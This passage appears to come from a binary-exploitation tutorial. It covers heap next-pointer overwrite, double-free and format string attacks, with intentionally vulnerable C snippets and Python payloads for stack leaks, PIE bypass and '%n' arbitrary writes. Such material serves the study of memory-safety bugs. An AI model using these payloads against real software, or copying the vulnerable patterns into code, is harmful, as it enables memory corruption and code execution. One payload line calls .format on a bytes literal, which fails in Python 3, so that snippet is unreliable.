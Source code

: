 **Exploitation (overwrite next pointer):**

```python
# Overflow to overwrite 'next' pointer
payload = b"A" * 128           # Fill data field
payload += p64(0x123)          # Overwrite size
payload += p64(target_address)  # Overwrite next pointer

# When next chunk is processed, writes to target_address
```

**Double-free:**

```c
// Vulnerable code
free(ptr);
free(ptr);  // Double-free!
```

**Exploitation:**

```python
# Double-free allows heap metadata corruption
# Can lead to:
# - Arbitrary write primitive
# - Overlapping chunks
# - Code execution
```

### Format String Vulnerability

**Vulnerable code:**

```c
void vulnerable(char *user_input) {
    printf(user_input);  // User controls format string!
}
```

**Information leak:**

```python
# Leak stack values
payload = b"%x " * 20  # Dump 20 stack values

# Leak specific address
payload = b"%7$s" + p64(address)  # Read string at 'address'

# Leak program base (bypass PIE)
payload = b"%13$p"  # Leak return address from stack
```

**Arbitrary write:**

```python
# Write to arbitrary address using %n
# %n writes number of bytes printed so far to address

target_address = 0x601234
value_to_write = 0x1234

payload = p64(target_address)           # Address to write to
payload += b"%{}x".format(value_to_write - 8).encode()  # Print correct number of bytes
payload += b"%7$n"                      # Write to 7th stack argument (our address)
```
